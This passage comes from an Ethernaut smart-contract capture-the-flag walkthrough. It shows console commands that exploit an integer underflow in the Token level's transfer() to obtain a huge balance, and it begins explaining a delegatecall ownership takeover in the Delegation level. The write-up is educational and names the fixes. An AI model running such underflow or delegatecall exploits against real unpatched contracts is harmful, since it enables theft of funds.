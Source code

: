 ## <a name='Token'></a> 5. Token

> The goal of this level is to hack the basic token contract and extract additional tokens -- preferably a very large amount of tokens.

The odometer hint reminds us of the possibility for [underflow and overflow](https://docs.soliditylang.org/en/v0.5.11/security-considerations.html#two-s-complement-underflows-overflows).
We will trigger an underflow by transferring more tokens than available. Since we are using `uint`, instead of creating a negative balance, the result will be a large positive integer.

We will use the `transfer()` function for this exploit, which requires two inputs: destination address and value to send. We'll use an arbitrary address (the ethernaut address) and we'll send 1 token more than we were provided (20+1).

```solidity
// Retrieve the ethernaut address
> await ethernaut.address
< 0xD991431D8b033ddCb84dAD257f4821E9d5b38C33

// Verify the balance address
> await contract.balanceOf("0xD991431D8b033ddCb84dAD257f4821E9d5b38C33") // expanding reveals the balance is 0

//Verify our own address balance
> await contract.balanceOf(player) // expanding reveals the balance is 20, as expected

// Execute the exploit, transferring 21 tokens (triggering the overlow) to the ethernaut address
// (we could also transfer to any valid address)
> contract.transfer("0xD991431D8b033ddCb84dAD257f4821E9d5b38C33", 21)

// After the transaction is confirmed, check the ethernaut balance
> await contract.balanceOf("0xD991431D8b033ddCb84dAD257f4821E9d5b38C33")  // the balance is 21, as expected

// Verify our updated address balance
> await contract.balanceOf(player) // revealing Array(11) -- a balance that is "a very large amount of tokens"
```

Fortunately, the Solidity compiler now rejects code resulting in an underflow or overflow, as of v0.8.0. For contracts with previous compiler versions -- like this one -- [OpenZeppelin's SafeMath library](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath) is suggested.

## <a name='Delegation'></a> 6. Delegation

> The goal of this level is to claim ownership of the instance you are given.

Essentially, `delegatecall` allows a calling contract to use the functions of another contract while preserving its context (i.e., `address(this)`, `msg.sender`, `msg.value`). Additionally, the calling contract will execute on its own storage and state variables.

Our goal -- claiming ownership -- can be achieved by executing the `pwn()` function of the `Delegate` contract, which will sets `owner` equal to `msg.sender`. If we execute `pwn()` as a `delegatecall` from the `Delegation` instance, we can claim ownership (due to `msg.sender` being preserved from the calling `Delegation` contract).
